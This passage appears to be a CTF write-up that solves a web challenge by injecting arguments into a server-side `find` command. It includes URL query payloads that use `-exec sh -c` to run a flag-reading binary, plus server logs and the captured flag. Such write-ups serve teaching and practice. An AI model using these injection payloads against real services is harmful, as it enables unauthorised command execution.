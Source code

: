 though find command actually has **-exec**! with a condition:
> All following arguments to find are taken to be arguments to the command until an argument consisting of `;' is encountered.

so end the payload in an arbitrary argument with value `;`\
`-exec "./readflag" -hahaiwin ;` -> `?exec=./readflag&hahaiwin=;`
![](images/blog2.png)
uh oh! we need to send 2 too\
simply using a pipe wouldnt work, cause find will interpret the whole string as a filepath:
`-exec "echo '2' | ./readflag" -hahaiwin ;` -> `?exec=echo%20%272%27%20|%20./readflag&hahaiwin=;`
```
2024-12-22 01:30:05 find . -exec "echo '2' | ./readflag" -hahaiwin ;
2024-12-22 01:30:05 ['find', '.', '-exec', "echo '2' | ./readflag", '-hahaiwin', ';']
2024-12-22 01:30:05 find: ‘echo '2' | ./readflag’: No such file or directory
```
however we can use `sh -c`! which works with string input
`-exec sh -c "echo '2' | ./readflag" -hahaiwin ;` -> `?exec=sh&c=echo%20%272%27%20|%20./readflag&hahaiwin=;`
![](images/blog3.png)
yay! flag: `THJCC{argument_injection_never_die}`